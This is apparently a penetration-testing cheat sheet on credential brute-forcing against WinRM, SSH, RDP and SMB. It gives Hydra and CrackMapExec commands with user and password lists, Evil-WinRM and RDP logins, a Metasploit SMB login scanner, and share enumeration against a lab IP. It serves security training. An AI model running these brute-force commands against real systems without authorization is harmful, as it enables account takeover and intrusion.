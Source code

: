 # WinRM
## CrackMapExec Usage
```
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
```
crackmapexec winrm <ip> -u <userlist> -p <passwordlist>
```
The appearance of (Pwn3d!) is the sign that we can most likely execute system commands if we log in with the brute-forced user. Another handy tool that we can use to communicate with the WinRM service is Evil-WinRM, which allows us to communicate with the WinRM service efficiently.
```
evil-winrm -i <target-IP> -u <username> -p <password>
```
# SSH
## Hydra - SSH
```
hydra -L user.list -P password.list ssh://10.129.42.197
```
```
ssh user@<ip>
```
# Remote Desktop Protocol (RDP)
## Hydra - RDP
```
hydra -L user.list -P password.list rdp://10.129.42.197
```
```
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```
# SMB
## Hydra - SMB
```
hydra -L user.list -P password.list smb://10.129.42.197
```
## Hydra - Error
### Metasploit Framework
```
use auxiliary/scanner/smb/smb_login
```
Now we can use CrackMapExec again to view the available shares and what privileges we have for them.
```
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```
### Smbclient
```
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

